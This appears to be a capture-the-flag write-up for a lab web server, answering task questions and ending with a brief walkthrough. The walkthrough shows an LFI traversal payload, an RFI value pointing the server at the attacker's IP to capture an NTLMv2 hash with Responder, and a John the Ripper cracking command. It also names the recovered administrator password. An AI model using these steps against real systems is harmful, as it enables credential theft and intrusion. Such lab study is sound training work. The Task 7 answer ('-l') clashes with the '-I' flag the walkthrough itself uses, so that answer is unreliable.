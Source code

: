 # Task 1: When visiting the web service using the IP address, what is the domain that we are being redirected to?
unika.htb

# Task 2: Which scripting language is being used on the server to generate webpages?
php

# Task 3: What is the name of the URL parameter which is used to load different language versions of the webpage?
page

# Task 4: Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
../../../../../../../../windows/system32/drivers/etc/hosts

# Task 5: Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
//10.10.14.6/somefile

# Task 6: What does NTLM stand for?
New Technology Lan Manager

# Task 7: Which flag do we use in the Responder utility to specify the network interface?
-l

# Task 8: There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.
John The Ripper

# Task 9: What is the password for the administrator user?
badminton

# Task 10: We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?
5985

# Flag: 
When we access to our IP address, it redirects us to unika.htb. So what we need to do is resolve the hostname `unika.htb` by this command `echo "{ip} unika.htb" | sudo tee -a /etc/hosts`.

When we change language, we can see the parameter of the site. Then we check if LFI happen or not. `../../../../..\windows\system32\drivers\etc\hosts`. Run `sudo responder -I tun0` and reload `http://unika.htb/index.php?page=//{tun0 IP}/adsadsa` then we will get NTLMv2 hash. Using `John The Ripper` to crack it. `john -w=/usr/share/wordlists/rockyou.txt hash.txt`
